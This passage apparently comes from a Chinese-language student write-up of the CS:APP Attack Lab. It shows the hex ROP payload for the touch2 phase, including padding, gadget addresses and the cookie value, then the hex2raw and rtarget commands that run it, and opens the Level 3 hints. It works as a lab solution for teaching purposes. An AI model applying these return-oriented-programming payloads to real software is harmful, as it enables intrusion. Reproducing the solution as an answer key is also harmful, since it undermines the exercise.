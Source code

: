 ```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* match 40 */
ab 19 40 00 00 00 00 00 /* gadget 1 */
fa 97 b9 59 00 00 00 00 /* 0x59b997fa */
c5 19 40 00 00 00 00 00 /* gadget 2 */
ec 17 40 00 00 00 00 00 /* touch 2 */
```

**注意：**因为这里执行的是`popq`指令，所以会从内存中读取8字节内容，所以要对`0x59b997fa`扩充到8字节。

最后执行`./hex2raw < ROP-L2.txt > ROP-L2-raw.txt`得到字符串，然后执行` ./rtarget -q < ROP-L2-raw.txt`就完成本题

![img](pics/v2-fa0481c1b9a68155f9e6b139631e0dbd_720w.jpg)

### Level 3

该任务让我们使用ROP攻击来实现上面Level 3的功能。

**提示：**这里可以是使用从`start_farm`到`end_farm`的所有函数作为gadget。其次还增加了几个额外需要的指令的编码。

![img](pics/v2-26ef16b9da8dad60f1ec10e778087c00_720w.jpg)

![img](pics/v2-91727dd7a682a95466d4f73031a16bd1_720w.jpg)
